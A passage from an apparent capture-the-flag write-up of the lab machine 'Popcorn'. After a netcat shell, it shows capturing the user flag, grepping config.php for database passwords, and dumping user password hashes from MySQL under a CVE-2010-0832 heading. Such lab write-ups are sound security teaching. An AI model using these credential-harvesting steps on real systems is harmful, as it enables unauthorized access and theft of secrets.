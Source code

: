 After [upgrading my netcat shell to a pseudo pty with python](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2), I had a low-privileged shell and was able to capture the `user.txt` flag:

```
www-data@popcorn:/var/www/torrent$ cat /home/george/user.txt
5e36a919398ecc5d5c110f2d865cf136
```

## Privilege Escalation (CVE-2010-0832)

After capturing the user flag, I like do some basic privilege escalation checks. Whenever there is a web application running on the host, I like to check for credential reuse since a username and password is generally required to connect to its database:

Below is how I found the database credentials:

```
www-data@popcorn:/var/www/torrent$ grep --color -RiE 'pwd|passw' *
... CONTENT SNIPPED ...
config.php:  $CFG->dbPassword = "SuperSecret!!";        //db password
config.php:     $dbpass         = $CFG->dbPassword;
config.php:  //start session to hold username and password when linking from page to page
config.php:  db_connect($CFG->host, $CFG->dbName, $CFG->dbUserName, $CFG->dbPassword);
```

```
www-data@popcorn:/var/www/torrent$ grep CFG config.php
  ... CONTENT SNIPPED ...
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password
  ... CONTENT SNIPPED ...
```

The database credentials were located in `/var/www/torrent/config.php`. Do note that I was not able to reuse these credentials to login as the `root` or `george` user.
The next thing I like to do after compromising database credentials is to look for other application-based passwords that were set by administrators for credential reuse.
I connected to the Torrent Hoster application's database and extracted the Admin user's password hash, but was unable to crack it within a reasonable amount of time.

```
mysql> select * from users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 |
|  5 | r0kit    | 5f4dcc3b5aa765d61d8327deb882cf99 | user      | r0kit@example.com    | 2020-09-06 19:47:52 | 2020-09-06 19:47:52 |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
```
